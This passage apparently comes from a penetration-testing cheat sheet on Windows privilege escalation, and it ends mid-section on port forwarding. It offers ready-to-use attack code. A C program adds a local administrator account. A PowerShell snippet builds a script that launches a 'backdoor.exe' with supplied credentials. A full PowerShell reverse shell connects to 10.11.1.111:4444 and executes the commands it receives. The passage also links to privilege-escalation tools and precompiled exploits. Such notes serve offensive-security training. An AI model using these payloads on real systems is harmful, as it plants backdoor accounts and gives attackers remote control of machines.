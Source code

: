 ````
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile
i686-w64-mingw32-gcc -o useradd.exe useradd.c
````

#### Powershell Run As

```
echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1
```

#### Powershell Reverse Shell

```powershell
Set-ExecutionPolicy Bypass

$client = New-Object System.Net.Sockets.TCPClient('10.11.1.111',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



### Windows privesc/enum tools

- [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py)
- [windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
- [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

### Windows precompiled exploits

- [WindowsExploits](https://github.com/abatchy17/WindowsExploits)

### Windows Port Forwarding

Run in victim (5985 WinRM):
